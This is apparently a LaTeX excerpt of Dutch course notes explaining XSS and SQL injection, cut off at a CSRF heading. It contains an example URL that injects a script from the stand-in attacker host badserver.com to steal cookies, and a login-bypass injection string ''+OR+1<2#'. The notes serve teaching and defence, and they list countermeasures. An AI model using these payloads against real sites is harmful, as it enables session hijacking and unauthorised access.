 \documentclass{report}
\begin{document}
\begin{itemize}
\begin{enumerate}
			$$\texttt{http://web.org?q=<script src="http://badserver.com/script.js"></script>}$$
			De aanvaller verstuurt deze (gemaskeerde) URL naar gebruikers. Elke gebruiker die daar nu op klikt, zal dat script uitvoeren op zijn browser. Als de administrator van de webserver op deze link klikt, krijgt de aanvaller toegang tot dit adminaccount.
			\begin{itemize}
				\item[\info] De server kan dit voorkomen door input te valideren, ongeldige queries te redirecten, meerdere logins op hetzelfde accounts invalideren.
				\item[\info] De client kan dit enkel voorkomen door op de hoogte te zijn van zulke aanvallen, en niet op vreemde links te klikken van onbekenden.
			\end{itemize}
			\item Een forum laat toe om nieuwe posts te maken en hierop te reageren. Een reactie wordt ingegeven in een bepaald inputveld. Een aanvaller merkt nu op dat dit inputveld ook HTML tags kan bevatten, met als gevolg dat er ook scripts kunnen uitgevoerd worden. Een aanvaller kan nu hetzelfde script gebruiken om cookies te stelen van vorig scenario. Elke gebruiker die nu naar de pagina surft waar die reactie staat, zal dat script uitvoeren op zijn browser, met als gevolg dat de aanvaller de sessies kan hijacken. Gebruikers hebben hier zelfs geen weet van dat dit op de achtergrond aan het draaien is.
			\begin{itemize}
				\item[\info] Het forum moet, als het HTML tags toelaat, de script tags uit de reactie halen.
			\end{itemize}
		\end{enumerate}

		XSS kan onder andere gebruikt worden voor: cookie stealing, website redirection, phishing, privacy violation, javascript malware, ...
		\item[\info] \textbf{SQL Injection}: Een bepaalde HTTP request kan iets opvragen uit een databank. Stel dat we willen inloggen, dan versturen we een username en paswoord (wordt nooit gedaan via een query string, maar maakt het voorbeeld iets eenvoudiger. Het paswoord wordt geëncrypteerd via TLS):
		$$\texttt{POST /login?u=foo\&p=bar}$$
		De gebruiker ophalen in een SQL databank:
		$$\texttt{SELECT * FROM users WHERE username = 'foo'}$$
		De aanvaller kan proberen om de \texttt{WHERE} clausule te omzeilen, door eigen SQL code te injecteren:
		$$\texttt{POST /login?u='+OR+1<2\#\&p=bar}$$
		De SQL code ziet er nu zo uit:
		$$\texttt{SELECT * FROM users WHERE u = '' OR 1 < 2\#}$$
		Het \# symbool zorgt ervoor dat alles erna als comentaar beschouwd wordt. Deze uitspraak is natuurlijk altijd waar, zodat alle gebruikers teruggestuurd worden naar de aanvaller.
		
		\item[\info] \textbf{Cross-site request forgery (CSRF)}:
	\end{itemize}
\end{document}
